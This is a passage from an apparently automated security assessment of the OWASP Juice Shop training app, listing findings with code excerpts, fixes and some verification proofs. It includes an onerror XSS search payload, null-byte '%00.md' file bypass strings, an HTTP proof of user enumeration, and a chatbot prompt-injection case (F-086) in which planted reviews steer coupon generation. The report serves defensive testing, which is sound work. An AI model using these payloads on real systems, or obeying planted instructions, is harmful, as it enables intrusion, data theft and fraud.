→ 53 │ export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
  54 │ export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
  55 │ export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** Switch to a cryptographically secure RNG (`crypto.randomBytes` / OS `/dev/urandom`) → ◑ [M-002](#m-002) — Manual review: verify Non-cryptographic RNG for a secret/token · ◕ [M-038](#m-038) — Use cryptographically secure random values

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-330](https://cwe.mitre.org/data/definitions/330.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-CRYPTO-02](#tc-crypto-02) · Rules: CRYPTO-002

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · JWT decode used without signature verification

**Severity:** 🟠 High  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:56`

**Reliability:** Low. Not confirmed, this may be a false positive: `decode()` is decode-only, but the supplied callers (lines 156, 166, 171) call `verify()` first. Callers outside the window are unknown.

**Weakness:** [W-003](#w-003) - Authentication relies on hand-rolled token verification

**Issue:** Decode-only flows let an attacker construct a token with any claims (admin, `sub=victim`, scope=*) - no key material required.

**Evidence:** ◌ ambiguous

```typescript
  54 │ export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
  55 │ export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
→ 56 │ export const decode = (token: string) => { return jws.decode(token)?.payload }
  57 │
  58 │ export const sanitizeHtml = (html: string) => sanitizeHtmlLib(html)
```

**Fix:** ◑ [M-003](#m-003) — Manual review: verify JWT decode used without signature verification · ◕ [M-039](#m-039) — Enforce JWT signature and algorithm verification (🟠 [F-019](#f-019))

**Classification:** Supply-Chain Integrity · STRIDE: Spoofing · [CWE-345](https://cwe.mitre.org/data/definitions/345.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-AUTHN-02](#tc-authn-02) · Rules: AUTHZ-006

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Insecure JWT Verification

**Severity:** 🟠 High  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** Multiple locations (2)

**Reliability:** Low. Not confirmed, this may be a false positive: Anchor line 53 is `denyAll` (random secret). `isAuthorized` at line 52 lacks algorithms, but exploitability depends on the `express-jwt` version, which is not shown.

**Weakness:** [W-003](#w-003) - Authentication relies on hand-rolled token verification

**Instances (2):** `lib/insecurity.ts`: 53, 189

**Issue:** Without an algorithm allowlist the token middleware that guards every authenticated route accepts tokens an attacker signs with a weaker or unintended algorithm, so a forged token passes as any user on every protected route.

**Evidence:** ◌ ambiguous

```typescript
lib/insecurity.ts
  51 │
  52 │ export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
→ 53 │ export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
  54 │ export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
  55 │ export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ◑ [M-004](#m-004) — Manual review: verify Insecure JWT Verification · ◕ [M-040](#m-040) — Enforce JWT signature and algorithm verification (🟠 [F-020](#f-020))

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-02](#tc-authn-02) · Rules: AUTHZ-007

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Passwords hashed with unsalted MD5 in User model setter

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Sequelize application data access  ·  **Location:** `models/user.ts:76`

**Found by:** survey and verification ([TC-AUTHN-04](#tc-authn-04))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-044](#w-044) - Security-sensitive data uses weak cryptographic primitives

**Issue:** The User model password setter stores `security.hash(clearTextPassword)`, which is unsalted `MD5` (`lib/insecurity.ts:41`). An attacker who obtains the SQLite file or a user dump can recover passwords with rainbow tables or GPU brute force, then log in as those users, including admins, and reuse the passwords elsewhere.

The setter applies no salt, adaptive hash or cost factor, and the model enforces no minimum password strength. Offline recovery of user passwords after any database disclosure, enabling account takeover.

**Evidence:** ✓ verified - A non-iterating hash is used for password storage.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◕ [M-062](#m-062) — Use a salted adaptive password hash

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Unsalted MD5 password hashing and no strength policy

**Severity:** 🟠 High  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:41`

**Found by:** survey, scanners and verification ([TC-AUTHN-04](#tc-authn-04))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-044](#w-044) - Security-sensitive data uses weak cryptographic primitives

**Issue:** Passwords are hashed with fast unsalted `MD5` in `lib/insecurity.ts:41`, used in login, 2FA setup and disable. `MD5` and `SHA-1` are collision-broken, so a leaked user table can be cracked quickly with precomputed tables. The reset path accepts any non-empty password, so no strength policy applies.

**Evidence:** ✓ verified

```typescript
  39 │ }
  40 │
→ 41 │ export const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex')
  42 │ export const hmac = (data: string) => crypto.createHmac('sha256', 'pa4qacea4VK9t9nGv7yZtwmj').update(data).digest('hex')
  43 │
```

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◕ [M-064](#m-064) — Use modern cryptographic hash and KDF algorithms

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04), [TC-CRYPTO-01](#tc-crypto-01) · Rules: CRYPTO-001

<a id="t-069"></a><a id="f-069"></a>
#### F-069 · User list readable by any authenticated user

**Severity:** 🟠 High  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `routes/authenticatedUsers.ts:12`

**Found by:** verification ([TC-AUTHZ-02](#tc-authz-02))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** GET `/rest/user/authentication-details` is protected only by `isAuthorized`, which checks token validity. The handler returns `findAll()` users with email, role, `lastLoginIp` and last login time. Any customer can enumerate every account, including admins.

**Evidence:** ✓ verified

```typescript
  10 │ async function retrieveUserList (req: Request, res: Response, next: NextFunction) {
  11 │   try {
→ 12 │     const users = await UserModel.findAll()
  13 │
  14 │     res.json({
```

**Fix:** ◕ [M-082](#m-082) — Restrict user listing to administrators

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-02](#tc-authz-02)

##### Dynamic verification

**Verdict:** confirmed (medium) · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (confirmed; the likelihood was already High or above).

> GET /rest/user/authentication-details returned 200 with the full user list (admin and customer records, role, lastLoginIp, lastLoginTime) to normal account-1. The body is byte-identical (same sha256, 8953 bytes) to the admin-1 reference response. The unauthenticated request got 401. So only token validity gates the endpoint, and any customer can enumerate all accounts.

Application screenshot unavailable: no application page showing the confirmed effect was captured; for API-only findings the recorded HTTP exchanges are the primary evidence.

###### Proof of concept

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| **3** | `GET /rest/user/authentication-details` | account-1 | 200, 8953 bytes |
| **4** | `GET /rest/user/authentication-details` | anonymous | 401, 972 bytes |
| **5** | `GET /rest/user/authentication-details` | admin-1 | 200, 8953 bytes |

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-069-poc.har`.

**Normal request · step 5** (privileged account) · `GET /rest/user/authentication-details` as admin-1 → 200, 8953 bytes

```http
GET /rest/user/authentication-details HTTP/1.1
authorization: ⟦[identity admin-1]⟧

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

Selected JSON fields (other content in HAR):
/data/0/id: 1
/data/0/role: "admin"
/data/1/id: 2
/data/1/role: "customer"
/data/2/id: 3
/data/2/role: "customer"
/data/3/id: 4
```

**Control · step 4** (without login) · `GET /rest/user/authentication-details` as anonymous → 401, 972 bytes

```http
GET /rest/user/authentication-details HTTP/1.1

HTTP/1.1 401 Unauthorized
content-type: text/html; charset=utf-8

Visible text: UnauthorizedError: No Authorization header was found OWASP Juice Shop (Express ^4.22.1) 401 UnauthorizedError: No Authorization header was found
```

**Attack · step 3** (normal account calls the privileged function) · `GET /rest/user/authentication-details` as account-1 → 200, 8953 bytes

```text
Compared with the normal request in step 5: same status 200, the identical answer, compared in code over the whole body.
```

```http
GET /rest/user/authentication-details HTTP/1.1
authorization: ⟦[identity account-1]⟧

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

Selected JSON fields (other content in HAR):
/data/0/id: 1
/data/0/role: "admin"
/data/1/id: 2
/data/1/role: "customer"
/data/2/id: 3
/data/2/role: "customer"
/data/3/id: 4
```

###### Technical QA

clear. 2 technical reviews and 1 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
No unresolved technical objections in the reviewed attempts.
```

###### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Angular sanitizer bypass causes XSS in about, search, administration

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Angular Frontend  ·  **Location:** Multiple locations (5)

**Found by:** survey and verification ([TC-INPUT-04](#tc-input-04))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-010](#w-010) - Frontend rendering lacks enforced output encoding

**Instances (5):** `frontend/src/app/about/about.component.ts`: 119; `frontend/src/app/administration/administration.component.ts`: 91; `frontend/src/app/score-board/score-board.component.ts`: 82; `frontend/src/app/search-result/search-result.component.ts`: 143; `frontend/src/app/track-result/track-result.component.ts`: 48

**Issue:** Several frontend components mark untrusted data as trusted HTML and bind it to `innerHTML`. In the About page (`frontend/src/app/about/about.component.ts:119`) the raw feedback comment is embedded in an HTML string, so a feedback comment with script-bearing markup submitted via the feedback API executes in every visitor's browser and can read the `localStorage` JWT.

Server-side sanitization of POST `/api/Feedbacks` was not served.

**Evidence:** ✓ verified - Raw feedback comment is concatenated into HTML, passed to the sanitizer bypass, and bound with `innerHTML`; server-side sanitization of the stored comment was not read.

```typescript
frontend/src/app/about/about.component.ts
  117 │             feedbacks[i].comment
  118 │           }</p><div class="feedback-stars">(${this.stars[feedbacks[i].rating]})</div></figcaption>`
→ 119 │           feedbacks[i].comment = this.sanitizer.bypassSecurityTrustHtml(
  120 │             feedbacks[i].comment
  121 │           )
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◕ [M-028](#m-028) — Encode output instead of bypassing the framework sanitizer (🟠 [F-001](#f-001))

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-04](#tc-input-04)

##### Dynamic verification

**Verdict:** confirmed · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** confirmed with a checked proof: likelihood Medium → High, severity High → Critical; impact unchanged. The Analyzer's rating above stays as it is.

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-003:** confirmed (high)

> The q query parameter in /#/search is passed through sanitizer.bypassSecurityTrustHtml (search-result.component.ts:143) and bound via innerHTML without escaping. A crafted search URL with an img onerror payload executed the required alert('vrfff417e61'.concat('4391894e')) marker in the headless browser, confirming the Angular sanitizer bypass XSS for the search variant.

###### Exploit in the application



```text
Application browser capture; highlights and captions added by the Verifier. Illustrates recorded step 2. View as anonymous. Dialog drawn from the recorded execution event.
```

```text
Test agent's explanation: Screenshot shows the search page executing the injected onerror JavaScript, triggering the proof alert dialog.
```


###### Proof of concept

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| **2** | `browser GET /#/search?q=` | anonymous | 200, 9984 bytes, marker executed, 30 requests |

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-001-cb9ffdc3b619b488-poc.har`.

**Attack · step 2** (carries the payload) · `GET /#/search?q=` as anonymous → 200, 9984 bytes, marker executed, 30 requests

```text
opened in the browser: /#/search?q=
marker executed in the browser: yes
```

The page's first request below; the part after # stays in the browser.

```http
GET / HTTP/1.1

HTTP/1.1 200 OK
content-type: text/html; charset=UTF-8

[page source omitted: the browser observation above decides the XSS test; full record in HAR]
```

###### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
A confirmed verdict whose proof check passed is not reviewed (VER-046).
```

###### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. Screenshots a model reviewed: `evidence/T-001-cb9ffdc3b619b488-angular-sanitizer-bypass-causes-xss-in-about-search.png`.

```text
Evidence text and layout checks passed; 1 screenshot reviewed.
```

**Variant variant-001:** not attempted

> not tested: safe mode; every declared variant needs a state change

**Variant variant-002:** not attempted

> not tested: safe mode; every declared variant needs a state change

### 🟡 Medium (54)

<a id="t-070"></a><a id="f-070"></a>
#### F-070 · Product review author taken from request

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/createProductReviews.ts:26`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** PUT `/rest/products/:id/reviews` has no `isAuthorized` middleware and stores `req.body.author` as given, so anyone can post reviews attributed to other users' emails.

**Evidence:** ✓ verified

**Fix:** ◑ [M-083](#m-083) — Derive review author from the session

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-290](https://cwe.mitre.org/data/definitions/290.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-071"></a><a id="f-071"></a>
#### F-071 · Chatbot trusts unverified JWT payload for identity

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/chat.ts:45`

**Reliability:** Low. Not confirmed, this may be a false positive: `getUserId` uses `security.decode`, but its implementation (verify vs. plain decode) is not in the supplied source, so forgery is unproven.

**Weakness:** [W-003](#w-003) - Authentication relies on hand-rolled token verification

**Issue:** `getUserId` takes the user id from `security.decode(token)`, which (by name) decodes without signature verification; `getOrderById` then treats that id as authenticated, so a forged token reads another customer's order. The decode implementation was not served.

**Evidence:** ◌ ambiguous

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ◑ [M-013](#m-013) — Manual review: verify Chatbot trusts unverified JWT payload for identity · ◑ [M-084](#m-084) — Verify JWT signature before trusting identity

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-072"></a><a id="f-072"></a>
#### F-072 · Client-supplied UserId accepted when posting feedback

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/verify.ts:33`

**Found by:** survey and verification ([TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Issue:** POST `/api/Feedbacks` has no token requirement. The `forgedFeedbackChallenge` middleware compares the body UserId with the token user only to flag the challenge, then calls next without overriding or rejecting. One part notes the finale persistence was not read.

**Evidence:** ✓ verified

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-085](#m-085) — Derive feedback author from the token

**Classification:** Broken Access Control · STRIDE: Spoofing · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03)

<a id="t-073"></a><a id="f-073"></a>
#### F-073 · Image CAPTCHA answer leaked and check skippable

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/imageCaptcha.ts:52`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** The image CAPTCHA endpoint returns the answer in its JSON response, and `verifyImageCaptcha` calls next when no recent CAPTCHA exists, so the data-export CAPTCHA gate can be passed without solving anything.

**Evidence:** ✓ verified

**Fix:** ◑ [M-086](#m-086) — Fail closed and keep CAPTCHA answer server-side

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-804](https://cwe.mitre.org/data/definitions/804.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-074"></a><a id="f-074"></a>
#### F-074 · Wallet ownership claimed without signature proof

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - Web3 / Wallet / NFT Surface  ·  **Location:** `routes/nftMint.ts:42`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-004](#w-004) - Endpoints are reachable without enforced authentication

**Issue:** An unauthenticated caller POSTs a publicly visible minter address (from on-chain NFTMinted events) as `walletAddress` to `/rest/web3/walletNFTVerify`. The server only checks Set membership and marks the NFT mint challenge solved, with no signed message proving key control.

**Evidence:** ✓ verified

**Fix:** ◑ [M-087](#m-087) — Require signed message proving wallet ownership

**Classification:** Unauthenticated Management Plane · STRIDE: Spoofing · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-076"></a><a id="f-076"></a>
#### F-076 · Unauthenticated WebSocket Channel

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - Real-time WebSocket Channel  ·  **Location:** Multiple locations (2)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-004](#w-004) - Endpoints are reachable without enforced authentication

**Instances (2):** `lib/startup/registerWebsocketEvents.ts`: 23, 36

**Issue:** An attacker connects with a non-browser socket\.io client; CORS only constrains browsers, and the connection handler performs no token or origin check, so any client is treated as a legitimate session and can emit events.

**Evidence:** ✓ verified

**Fix:** ◑ [M-089](#m-089) — Require authentication on every exposed endpoint (🟡 [F-076](#f-076))

**Classification:** Unauthenticated Management Plane · STRIDE: Spoofing · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-081"></a><a id="f-081"></a>
#### F-081 · Fetched profile image stored without size

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/profileImageUrlUpload.ts:30`

**Found by:** verification ([TC-FILE-02](#tc-file-02))

**Reliability:** Medium. An automatic check confirmed part of the claim.

**Weakness:** [W-039](#w-039) - Fetched profile image stored without size or type check

**Issue:** The URL-based profile image route streams the remote body to disk with no size cap or content check; the extension is taken from the URL (svg allowed), so large or active content ends in a public folder.

**Evidence:** ✓ verified

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ◑ [M-094](#m-094) — Limit size and verify type of fetched images

**Classification:** Insecure File Handling · STRIDE: Tampering · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-02](#tc-file-02)

<a id="t-082"></a><a id="f-082"></a>
#### F-082 · Memory image upload without size limit or content check

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:698`

**Found by:** verification ([TC-FILE-02](#tc-file-02))

**Reliability:** Medium. An automatic check confirmed part of the claim.

**Weakness:** [W-040](#w-040) - Memory image upload without size limit or content check (`server.ts:698`)

**Issue:** A user uploads to `/rest/memories` through a disk multer with no `fileSize` limit. The only type check is the client-declared MIME, so large or non-image content is stored in a public image folder.

**Evidence:** ✓ verified

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ◑ [M-095](#m-095) — Add size limit and content check to memory upload

**Classification:** Insecure File Handling · STRIDE: Tampering · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-02](#tc-file-02)

<a id="t-083"></a><a id="f-083"></a>
#### F-083 · Deluxe membership upgrade without payment

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/deluxe.ts:24`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** POST `/rest/deluxe-membership` only deducts funds or validates a card when `paymentMode` is 'wallet' or 'card'. Any other `paymentMode` value skips payment and the user is promoted to deluxe.

**Evidence:** ✓ verified

**Fix:** ◑ [M-096](#m-096) — Reject unknown paymentMode values server-side

**Classification:** Broken Access Control · STRIDE: Tampering · [CWE-840](https://cwe.mitre.org/data/definitions/840.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-084"></a><a id="f-084"></a>
#### F-084 · Owner UserId taken from request body on create routes

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:444`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-008](#w-008) - Privileged attributes lack an enforced write allowlist

**Issue:** POST `/api/Complaints`, `/api/PrivacyRequests` and `/api/Recycles` are generated routes with only `isAuthorized`, not `appendUserId`. The UserId owner field comes from the body, so a caller can create records owned by another user, such as a deletion request.

**Evidence:** ✓ verified

**Fix:** ◑ [M-097](#m-097) — Bind owner field to the authenticated caller

**Classification:** Broken Access Control · STRIDE: Tampering · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03)

<a id="t-085"></a><a id="f-085"></a>
#### F-085 · Security answer creation accepts owner from request body

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `server.ts:501`

**Found by:** verification ([TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03))

**Reliability:** Low. Not confirmed, this may be a false positive: POST `/api/SecurityAnswers` is unguarded, but the model's UserId handling and the password-reset use are not in the supplied source.

**Weakness:** [W-008](#w-008) - Privileged attributes lack an enforced write allowlist

**Issue:** POST `/api/SecurityAnswers` has no guard and the model's UserId comes from the body. An attacker can create a security answer for any user who has none, which can be used in password reset.

**Evidence:** ◌ ambiguous

**Fix:** ◑ [M-018](#m-018) — Manual review: verify Security answer creation accepts owner from request body · ◑ [M-098](#m-098) — Bind security answer owner to the authenticated user

**Classification:** Broken Access Control · STRIDE: Tampering · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-03](#tc-authz-03)

<a id="t-086"></a><a id="f-086"></a>
#### F-086 · Stored reviews and username reach chatbot context as instructions

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** Multiple locations (2)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-019](#w-019) - Stored reviews and username reach chatbot context as instructions (`chat.ts:149`)

**Instances (2):** `routes/chat.ts`: 83, 149

**Issue:** LLM01/ASI01: unauthenticated review messages are returned verbatim as `getProductReviews` tool results, and the username is interpolated into the system prompt; an attacker plants instructions that steer later chats, e.g. calling `generateCoupon`.

**Evidence:** ✓ verified

**Fix:** ◑ [M-099](#m-099) — Isolate untrusted review text from instructions

**Classification:** Injection · STRIDE: Tampering · [CWE-1427](https://cwe.mitre.org/data/definitions/1427.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-096"></a><a id="f-096"></a>
#### F-096 · Null byte bypasses FTP file type allow-list

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/fileServer.ts:33`

**Found by:** verification ([TC-FILE-01](#tc-file-01))

**Reliability:** Medium. An automatic check confirmed part of the claim.

**Weakness:** [W-005](#w-005) - Input handling lacks enforced boundary validation

**Issue:** A caller requests `/ftp/``&lt;name&gt;`%`00.md`. The .md suffix passes the allow-list, then the null-byte cut-off removes it, so any file in the ftp folder (backups, keepass files) is served.

**Evidence:** ✓ verified

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ◑ [M-106](#m-106) — Check file type after normalizing the name

**Classification:** Insecure File Handling · STRIDE: Information Disclosure · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-01](#tc-file-01)

<a id="t-097"></a><a id="f-097"></a>
#### F-097 · Arbitrary file read

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/dataErasure.ts:107`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An authenticated user POSTs `/dataerasure` with a body 'layout' value. The path is checked only against a substring blocklist (ftp, `ctf.key`, encryptionkeys) and the whole request body is then spread into `res.render`, so the layout option makes the view engine read other server files and return the first 100 characters.

**Evidence:** ✓ verified

**Fix:** ◑ [M-107](#m-107) — Constrain file paths to a safe base directory (🟡 [F-097](#f-097))

**Classification:** Insecure File Handling · STRIDE: Information Disclosure · [CWE-73](https://cwe.mitre.org/data/definitions/73.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-098"></a><a id="f-098"></a>
#### F-098 · Null byte bypass of file type allowlist

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/fileServer.ts:28`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** The `/ftp` file handler checks the .md or .pdf extension first and then truncates the name at '%00'. A name like `secret.bak`%`00.md` passes the check and `sendFile` serves the .bak file from the ftp folder.

**Evidence:** ✓ verified

**Fix:** ◑ [M-108](#m-108) — Validate file name after normalization

**Classification:** Insecure File Handling · STRIDE: Information Disclosure · [CWE-158](https://cwe.mitre.org/data/definitions/158.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-099"></a><a id="f-099"></a>
#### F-099 · Unauthenticated memories list returns user records

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/memory.ts:24`

